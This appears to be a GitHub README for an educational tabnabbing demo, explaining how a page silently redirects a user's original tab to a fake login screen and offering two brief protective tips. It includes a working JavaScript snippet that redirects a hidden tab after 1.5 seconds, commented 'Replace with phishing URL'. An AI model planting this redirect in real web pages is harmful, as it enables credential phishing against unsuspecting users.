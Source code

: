 ## 👨🏻‍💻️ Tab-H1j4ck

This educational project shows how **Tab H1j@cking** works — a trick where attackers hijack the **original tab** after a user opens a **new one**. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

---

### 🛡️ How to Protect Yourself

- ✅ Don’t trust tabs that open automatically  
- ✅ Always check the URL before logging in  

---

**🌐 Free Hosting & Subdomain**

> https://youtu.be/TV8CI3w6PlE

---

### 🔁 Example JavaScript Code

You can test it in y0ur 0wn pr0ject:

```js
let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href = 'https://youtu.be/vE9O36mxQ2A'; // Replace with phishing URL
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
```

---

**🎥 Educational Demo**

> https://youtube.com/shorts/nrfAEaHKOO4

---

> **⚠️ Warning:** This project is for **educational purposes only**. Never use it for malicious activities. Always obtain **explicit consent** before conducting any security tests.
